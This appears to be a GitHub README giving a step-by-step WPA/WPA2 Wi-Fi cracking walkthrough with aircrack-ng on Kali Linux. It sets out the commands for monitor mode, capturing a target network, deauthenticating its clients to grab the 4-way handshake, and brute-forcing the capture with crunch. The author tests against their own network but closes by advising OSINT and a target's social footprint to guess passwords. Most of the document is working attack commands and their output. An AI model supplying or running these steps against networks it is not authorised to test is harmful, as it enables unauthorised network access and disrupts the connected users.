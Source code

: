 # WPA-WPA2-wifi-hacking
Aircrack-ng

# Tools 
- Network Adapter ( I used TL-WN722N V2 with monitoring mode .)
- Kali Linux

#Lets Start Cracking 

### Monitoring Mode Setup:

- Before enabling monitoring mode we need to kill some services to avoid interruption .
- Type the below command to see the services that interrupting and kill them.

```
sudo airmon-ng check wlan0
```
```
sudo airmon-ng check kill
```

<img width="443" alt="image" src="https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/d36b97d7-e46e-48cd-b2cf-ca582fb69c1e">

- Now stop the wlan0 to enable monitor mode, follow the below command to enable it .
```
ifconfig wlan0 down
```
```
iwconfig wlan0 mode monitor
```
```
ifconfig wlan0 up
```

- If you type `iwconfig` you will the mode of wlan0 as monitor mode.

<img width="724" alt="image" src="https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/059c34b2-708c-4d2a-a3fa-69b9e3209e6f">

### Lets Capture the packet and 4-way HackShake

- First we need to capture the network for BSSID so type the below command for it .
```
airodump-ng wlan0
```
![PHOTO-2023-11-20-21-14-50](https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/c14ff384-129d-43e5-b225-4325d6922b04)

- Now i take a particular BSSID to monitor it lets take Kamalesh D BSSID because its my network.
- Type the below command to monitor the particular BSSID network.

```
airodump-ng -c 1 -w Scan_network --bssid EW:WV:4H:J7:A5:28 wlan0
```
![PHOTO-2023-11-20-21-17-14](https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/41241303-70d3-4eba-a6bd-8c94d5dc5f6e)

#### Note:
- Run the above command in background.

### Deauth process using airplay-ng

- Now i need to deauth the wifi to get the 4 way hackshake and get a .cap file.
- Run the below command to deauth it.
```
sudo aireplay-ng -0 0 -a EW:WV:4H:J7:A5:28 wlan0
```

 <img width="753" alt="image" src="https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/11e4ecf9-e7fa-45c6-bce7-ab624fd424ac">

- Run the code until you see 4-way handshake mentioned in the background running code.

### Final stage to Crack it .

- We are gonna use `Crunch` and `aircrack-ng` to find the password and with the help of Scan_network.cap file.
- Type below command to start the proccess with help of crunch we give set a possible letters/alpha/symbols and pass that to aircrack to decrypt the .cap file.
```
 sudo crunch 8 8 123456780 | aircrack-ng -w - Scan_Kamalesh-01.cap -e Kamalesh D
```

![PHOTO-2023-11-20-14-32-08](https://github.com/Kamalesh-Seervi/WPA-WPA2-wifi-hacking-/assets/107933310/ab3598be-4927-4c58-8db4-b362606daf65)


## Note:
- For crunch i used only numeric because i know the wifi password i set it to only numeric.
- If you dont know the password try to guess use social footprint and try to find the length otherwise if you want to try all the possibility it is billions which is not possible to crack it on pc its takes years to crack it so try to guess and use OSINT.
